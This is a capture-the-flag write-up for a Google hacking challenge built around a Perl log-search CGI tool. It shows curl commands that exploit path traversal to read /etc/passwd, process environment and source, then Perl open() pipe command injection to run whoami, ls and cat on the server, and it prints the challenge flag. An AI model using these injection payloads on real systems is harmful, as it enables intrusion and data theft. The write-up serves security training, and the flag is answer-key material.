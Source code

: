 # Episode 0: Challenge 2

## Description

> After recent attacks, we’ve developed a search tool. Search the logs and discover what the attackers were after.
> 
> Hint: Always search deeper. 

A link to an online log search tool was attached.

## Solution

The link leads us to an online log search tool. The search term defaults to `aurora`, and we can search through several files available via a dropdown menu:

 * hexdump.txt
 * registry.txt
 * exploit_unobfuscated.js
 * filenames.txt
 * hostnames.txt
 * strings.txt
 * exploit.js

If we search for `aurora` in the hexdump, we get:

```
0001bd30  61 5f 53 72 63 5c 41 75  72 6f 72 61 56 4e 43 5c  |a_Src\AuroraVNC\|
```

Using the address on the left, we can try and dump the binary by searching for `0000`, `0001`, etc.:

```
00000000  4d 5a 90 00 03 00 00 00  04 00 00 00 ff ff 00 00  |MZ..............|
00000010  b8 00 00 00 00 00 00 00  40 00 00 00 00 00 00 00  |........@.......|
00000020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 01 00 00  |................|
00000040  0e 1f ba 0e 00 b4 09 cd  21 b8 01 4c cd 21 54 68  |........!..L.!Th|
00000050  69 73 20 70 72 6f 67 72  61 6d 20 63 61 6e 6e 6f  |is program canno|
00000060  74 20 62 65 20 72 75 6e  20 69 6e 20 44 4f 53 20  |t be run in DOS |
00000070  6d 6f 64 65 2e 0d 0d 0a  24 00 00 00 00 00 00 00  |mode....$.......|
...
```

It looks like we get the binary used for [Operation Aurora](https://en.wikipedia.org/wiki/Operation_Aurora) over a decade ago. The contents of `exploit_unobfuscated.js` also seems related to the attack. However, none of this helps us. It's time to dig deeper.

Checking the sources, we see that the following logic takes care of communicating with the service's backend:

```html
    <script>
      function search() {
        const file = document.getElementById("files").value;
        const term = document.getElementById("searchterm").value;
        const url = document.location.origin + "?file=" + escape(file) + "&term=" + escape(term);

        if (term.length < 4) {
          alert("Search term must be at least 4 characters long!");
          return;
        }

        document.getElementById("found").value = "Loading...";

        const xhr = new XMLHttpRequest();
        xhr.onload = function() {
          document.getElementById("found").value = xhr.responseText;
        }
        xhr.open("GET", url);
        xhr.send();
      }
    </script>
```

Since we control the `file` parameter, let's see what else we can find:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP001]
└─$ curl "https://aurora-web.h4ck.ctfcompetition.com/?file=../../etc/passwd&term=admin"
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```

So there is a Local File Inclusion vulnerability here! Using this vulnerability, we can check the environment variables or leak the command line:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP001]
└─$ curl "https://aurora-web.h4ck.ctfcompetition.com/?file=../../../proc/self/environ&term=flag" --output -
SERVER_NAME=aurora-web.h4ck.ctfcompetition.comSCRIPT_NAME=/cgi-bin/nsjail-perl-cgiREDIRECT_STATUS=200GATEWAY_INTERFACE=CGI/1.1SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)PATH_INFO=/index.plDOCUMENT_ROOT=/web-apps/perlPWD=/usr/lib/cgi-binREQUEST_URI=/?file=../../../proc/self/environ&term=flagPATH_TRANSLATED=/web-apps/perl/index.plSERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at aurora-web.h4ck.ctfcompetition.com Port 1337</address>
REQUEST_SCHEME=httpQUERY_STRING=file=../../../proc/self/environ&term=flagHTTP_X_FORWARDED_PROTO=httpsCONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/HTTP_X_CLOUD_TRACE_CONTEXT=bd21912e5d9e4094944b17c87febeb25/962831361846735586HTTP_ACCEPT=*/*REMOTE_PORT=9275SERVER_ADMIN=[no address given]HTTP_HOST=aurora-web.h4ck.ctfcompetition.comHTTP_X_FORWARDED_FOR=77.125.40.136, 34.149.231.39HTTP_CONNECTION=Keep-AliveSERVER_ADDR=10.120.4.254HTTP_USER_AGENT=curl/7.74.0CONTEXT_PREFIX=/cgi-bin/SHLVL=1REDIRECT_HANDLER=application/x-nsjail-httpd-perlHTTP_VIA=1.1 googleSERVER_PROTOCOL=HTTP/1.1REDIRECT_QUERY_STRING=file=../../../proc/self/environ&term=flagSERVER_PORT=1337SCRIPT_FILENAME=/usr/lib/cgi-bin/nsjail-perl-cgiREMOTE_ADDR=10.119.220.43PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binREDIRECT_URL=/index.plREQUEST_METHOD=GET_=/usr/bin/nsjail

┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP001]
└─$ curl "https://aurora-web.h4ck.ctfcompetition.com/?file=../../../proc/self/cmdline&term=usr/" --output -
/usr/bin/perl/web-apps/perl/index.pl
```

We see that the service is run from a perl script at `/web-apps/perl/index.pl` and can even leak some contents from it:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP001]
└─$ curl "https://aurora-web.h4ck.ctfcompetition.com/?file=../../../web-apps/perl/index.pl&term=%20%20%20%20"
    # I am sure this is totally secure!
    open(my $fh, "logs/".$filename);
    while (my $line = <$fh>) {
      if (index(lc($line), lc($needle)) >= 0) {
        push(@results, $line);
      }
    }
    push(@results, {$tmpl_name, shift @elems});
```

And finally, we can guess the flag location and leak it:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP001]
└─$ curl "https://aurora-web.h4ck.ctfcompetition.com/?file=../../../flag&term=solve"
https://h4ck1ng.google/solve/Y37_@N07h3r_P3r1_H@X0R
```

After solving the challenge, I was told by one of the admins that it was possible to achieve RCE on the server instead of guessing the flag location. Let's see how to do that. It turns out that one of the comments in the HTML page pointed to `src.txt`, giving us the full source code for the perl script:

```perl
use strict;
use warnings;

use utf8::all;
use CGI;
use HTML::Template;

sub files_in_dir {
  my $dirname = shift;
  opendir my $dir, $dirname;
  my @files = grep $_ ne "." && $_ ne "..", readdir $dir;
  closedir $dir;
  return @files;
}

sub find_lines {
  my ($filename, $needle) = @_;
  my @results = ();
  if (length($needle) >= 4) {
    # I am sure this is totally secure!
    open(my $fh, "logs/".$filename);
    while (my $line = <$fh>) {
      if (index(lc($line), lc($needle)) >= 0) {
        push(@results, $line);
      }
    }
  }
  return @results;
}

sub list_to_tmpl {
  my ($tmpl_name, @elems) = @_;
  my @results = ();
  while (@elems) {
    push(@results, {$tmpl_name, shift @elems});
  }
  return \@results;
}

sub main_page {
  my $tmpl = HTML::Template->new(filename => "templates/default.html");
  $tmpl->param(FILES => list_to_tmpl("NAME", files_in_dir("logs")));
  return $tmpl->output;
}

my $q = CGI->new;

my $pfile = $q->param("file");
if (($pfile // "") eq "") {
  print $q->header(-charset => "utf-8");
  print main_page;
} else {
  print $q->header(-type => "text/plain", -charset => "utf-8");
  print join("", find_lines($pfile, scalar $q->param("term")));
}

```

The vulnerability in the script is conveniently marked by a comment:

```perl
    # I am sure this is totally secure!
    open(my $fh, "logs/".$filename);
```

Apparently, perl's `open` function does not only open files, it also allows running arbitrary commands 😱! All we need to do in order to enable this feature is to append a pipe (`|`) to the input. So, we can do this for example:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP001]
└─$ curl 'https://aurora-web.h4ck.ctfcompetition.com/'  --data-urlencode "file=aaa; echo -n '--->' && whoami; |" -d "term=--->"
--->user
```

And obviously list the root directory or read the flag:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP001]
└─$ curl -s 'https://aurora-web.h4ck.ctfcompetition.com/'  --data-urlencode "file=aaa; echo -n '****' && ls -al / | base64 -w 0 ; |" -d "term=****" | tr -d '*' | base64 -d
total 64
drwxr-xr-x   1 nobody nogroup 4096 Sep 30 09:00 .
drwxr-xr-x   1 nobody nogroup 4096 Sep 30 09:00 ..
lrwxrwxrwx   1 nobody nogroup    7 Jul 20  2020 bin -> usr/bin
drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 boot
drwxr-xr-x   5 nobody nogroup  360 Oct  6 20:52 dev
drwxr-xr-x  47 nobody nogroup 4096 Aug 18 12:12 etc
-rw-r--r--   1 nobody nogroup   52 Aug 18 12:08 flag
drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 home
lrwxrwxrwx   1 nobody nogroup    7 Jul 20  2020 lib -> usr/lib
lrwxrwxrwx   1 nobody nogroup    9 Jul 20  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 nobody nogroup    9 Jul 20  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 nobody nogroup   10 Jul 20  2020 libx32 -> usr/libx32
drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 media
drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 mnt
drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 opt
dr-xr-xr-x 589 nobody nogroup    0 Oct  8 19:19 proc
drwx------   3 nobody nogroup 4096 Aug 18 12:12 root
drwxr-xr-x   8 nobody nogroup 4096 Aug 18 12:12 run
lrwxrwxrwx   1 nobody nogroup    8 Jul 20  2020 sbin -> usr/sbin
drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 srv
drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 sys
drwxrwxrwt   2 user   user      40 Oct  8 19:19 tmp
drwxr-xr-x  14 nobody nogroup 4096 Aug 18 12:12 usr
drwxr-xr-x  11 nobody nogroup 4096 Jul 20  2020 var
drwxr-xr-x   1 nobody nogroup 4096 Sep 30 09:00 web-apps

┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP001]
└─$ curl -s 'https://aurora-web.h4ck.ctfcompetition.com/'  --data-urlencode "file=aaa; echo -n '****' && cat /flag | base64 -w 0 ; |" -d "term=****" | tr -d '*' | base64 -d
https://h4ck1ng.google/solve/Y37_@N07h3r_P3r1_H@X0R
```
